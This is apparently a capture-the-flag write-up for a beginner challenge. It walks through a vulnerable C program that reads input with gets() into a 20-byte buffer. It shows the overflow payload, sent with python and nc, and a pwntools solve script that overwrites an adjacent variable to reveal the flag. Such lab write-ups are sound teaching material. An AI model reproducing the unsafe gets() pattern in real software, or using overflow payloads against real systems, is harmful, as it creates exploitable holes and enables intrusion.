

# Challenge description


This challenge is pretty straightforward. From the title and description, it seems obvious that we need to overwrite a variable with a buffer overflow attack.

The challenge provides a download link to a zip-file, which consists of a source code written in C.

# The source code

```c
#include <stdio.h>
#include <stdlib.h>

char buff[20];
int buff2;

void setup(){
	setvbuf(stdin, buff, _IONBF, 0);
	setvbuf(stdout, buff, _IONBF, 0);
	setvbuf(stderr, buff, _IONBF, 0);
}

void flag_handler(){
	FILE *f = fopen("flag.txt","r");
  	if (f == NULL) {
    	printf("Cannot find flag.txt!");
    	exit(0);
  }
}

void buffer(){
	buff2 = 0;
	printf("Can you get the exact value to print the flag?\n");
	printf("Input: ");
	fflush(stdout);
	gets(buff); 
	if (buff2 > 5134160) {
		printf("Too high!\n\n");
	} else if (buff2 == 5134160){
		printf("Congrats, You got the right value!\n");
	 	system("cat flag.txt");
	} else {
		printf("Sad, too low! :(, maybe you can add *more* value 0_0\n\n");
	}
	printf("\nOutput : %s, Value : %d \n", buff, buff2);
}

int main(){
	flag_handler();
	setup();
	buffer();
}
```

The input we provide is saved in "buff", but afterwards, the variable "buff2" needs to hold a certain value so we can get the flag. So it's our goal to overwrite the variable "buff2" while only writing into "buff". Here, we can use a buffer overflow in the gets() function.
# The solution

After compiling the source code with gcc, we can explore it locally.
### the gets() function
The gets() function is considered an unsafe function since you can overflow it and it shouldn't be used! When compiling with gcc, it even prints a warning:
```bash
└─$ gcc chall.c         
chall.c: In function ‘buffer’:
chall.c:26:9: warning: implicit declaration of function ‘gets’; did you mean ‘fgets’? [-Wimplicit-function-declaration]
   26 |         gets(buff);
      |         ^~~~
      |         fgets
/usr/bin/ld: /tmp/ccD8QHO7.o: in function `buffer':
chall.c:(.text+0x104): warning: the `gets' function is dangerous and should not be used.
```
It does compile though, so we can explore it further.

### the executable
After creating some random flag.txt file locally, I was able to run the program:
```bash
└─$ ./a.out      
Can you get the exact value to print the flag?
Input: f
Sad, too low! :(, maybe you can add *more* value 0_0


Output : f, Value : 0 
```
It takes an input, stores it in the buffer "buff" and compares the variable "buff2" to the decimal 5134160. If buff2 is set to this number, we get the flag. Otherwise, it will print if buff2 is too low or too high. After "Output : ", it prints the current value of buff, after "Value : ", it prints the current value of buff2.

### how to change the value of buff2
buff and buff2 are global variables and are declared right next to each other in memory. 
You can check that this is indeed the case by printing their addresses:
```bash
└─$ readelf -s a.out | grep buff                            
    28: 000000000000125d   215 FUNC    GLOBAL DEFAULT   15 buffer
    30: 0000000000004090    20 OBJECT  GLOBAL DEFAULT   26 buff
    41: 00000000000040a4     4 OBJECT  GLOBAL DEFAULT   26 buff2
```

So, "buff" is a character array that can hold 20 characters. Right after "buff" ends in memory, "buff2" starts. Since the gets() functions will allow a buffer overflow attack, if we send more than 20 characters, the overflow will overwrite "buff2".

To test this, we can send 20 A's (to fill up "buff") and then some value to see if it's working (here, I'm just sending a 1 in hex)
```bash
└─$ python2 -c "print 'A'*20+'\x01'" | ./a.out
Can you get the exact value to print the flag?
Input: Sad, too low! :(, maybe you can add *more* value 0_0


Output : AAAAAAAAAAAAAAAAAAAA, Value : 1
```

### how to set buff2 to 5134160
Variables are stored as hex values in little endian format. So if we are manipulating memory directly, we should send our payload in the same manner.

First, we will convert the decimal number 5134160 into the hex number 0x4E5750. In little endian, this will be 0x50 0x57 0x4E, since we start with the least significant byte.

This leaves us with the following payload and we get the flag:
```bash
└─$ python2 -c "print 'A'*20+'\x50\x57\x4e'" | nc ctf.tcp1p.com 17027
Can you get the exact value to print the flag?
Input: Congrats, You got the right value!
TCP1P{ez_buff3r_0verflow_l0c4l_v4r1abl3_38763f0c86da16fe14e062cd054d71ca}
Output : AAAAAAAAAAAAAAAAAAAAPWN, Value : 5134160 
```

# The solve script
Another way to deliver the payload is by using a python script:
```python
import pwn

p = pwn.remote("ctf.tcp1p.com", 17027)

p.sendline(b"a"*20 + b'\x50\x57\x4e')
p.interactive()
```

```bash
└─$ python solve.py                                          
[+] Opening connection to ctf.tcp1p.com on port 17027: Done
[*] Switching to interactive mode
Can you get the exact value to print the flag?
Input: Congrats, You got the right value!
TCP1P{ez_buff3r_0verflow_l0c4l_v4r1abl3_38763f0c86da16fe14e062cd054d71ca}
Output : aaaaaaaaaaaaaaaaaaaaPWN, Value : 5134160 
```
